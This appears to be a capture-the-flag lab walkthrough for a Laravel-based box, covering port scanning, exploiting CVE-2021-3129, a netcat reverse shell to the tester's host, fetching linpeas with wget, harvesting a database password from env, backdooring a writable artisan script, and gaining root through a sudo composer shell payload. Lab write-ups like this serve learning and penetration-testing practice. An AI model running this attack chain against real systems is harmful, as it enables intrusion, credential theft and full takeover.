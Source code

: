 ## NMAP

```nmap-LaVita
??$ nmap -sC -sV 192.168.59.38 -oA LaVita
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-08 17:28 UTC
Nmap scan report for 192.168.59.38
Host is up (0.0030s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: W3.CSS Template
|_http-server-header: Apache/2.4.56 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

## Port 80

Laravel 8.4.0 in use
Searchsploit shows an [RCE](https://www.ambionics.io/blog/laravel-debug-rce) 

```searchsploit-laravel
??$ searchsploit -m 49424
  Exploit: Laravel 8.4.2 debug mode - Remote code execution
      URL: https://www.exploit-db.com/exploits/49424
     Path: /usr/share/exploitdb/exploits/php/webapps/49424.py
    Codes: CVE-2021-3129
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/49424.py
```

No luck

Dirbuster shows login and register paths
Used Burpsuite

Nevermind above, just registered a user and logged in as it
Able to enable debugging and have an image upload section

enabled debugging to try original exploit, no luck

Found Another [Exploit](https://github.com/joshuavanderpoll/CVE-2021-3129.git)
This one worked (needed to reset machine once)

executed nc reverse shell:

```nc-revshell
nc -c sh 192.168.49.59 9000
```

==LOCAL==
Ran

``` TTY-SHELLSPAWN
python3 -c 'import pty;pty.spawn("/bin/bash")'; export TERM=xterm-256color
```

Sent over linpeas.sh by:

```python-file-send
python3 -m http.server 80
```

followed by:

```
wget http://192.168.49.59/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
```

## Privilege Escalation

Ran linpeas from /tmp

Found that lavita database.config using env vars for database password

found database password in `env`

```
www-data@debian:/$ env
env
DB_PASSWORD=sdfquelw0kly9jgbx92
```

DB_USER was in env as lavita
nothing useful in DB though

no cron processes, used [pspy](https://github.com/DominicBreuker/pspy):

```
2024/06/08 14:51:01 CMD: UID=1001  PID=17416  | sh -c stty -a | grep columns 
2024/06/08 14:51:01 CMD: UID=1001  PID=17415  | stty -a 
2024/06/08 14:51:01 CMD: UID=1001  PID=17417  | /usr/bin/php /var/www/html/lavita/artisan clear:pictures         
```

skunk user is running lavita/artisan

We have write perm on artisan:
```
-rwxr-xr-x  1 www-data www-data    1686 Nov 10  2020 artisan
```


Modified artisan to be the PHP IvanSineck shell from revshells

Got shell as skunk user

==Skunk User==

For root, ran `sudo -l`

```
skunk@debian:~$ sudo -l
sudo -l
Matching Defaults entries for skunk on debian:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User skunk may run the following commands on debian:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/composer --working-dir\=/var/www/html/lavita *
```

searched for composer in [GTFOBins](https://gtfobins.github.io/)
```
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' > composer.json
```

```
skunk@debian:~$ sudo -u root /usr/bin/composer --working-dir\=/var/www/html/lavita run-script x
<er --working-dir\=/var/www/html/lavita run-script x
Do not run Composer as root/super user! See https://getcomposer.org/root for details                                                                      
Continue as root/super user [yes]? y
y
> /bin/sh -i 0<&3 1>&3 2>&3
# ls
ls
app            composer.lock  package-lock.json  resources   storage
artisan        config         phpunit.xml        rev.sh      tests
bootstrap      database       public             routes      vendor
composer.json  package.json   README.md          server.php  webpack.mix.js
# whoami
whoami
root
# cd ~
cd ~
# ls
ls
email7.txt  proof.txt
# cat proof.txt
cat proof.txt
c36fcfff7333e6b9e4c4fd8057d91ed2
```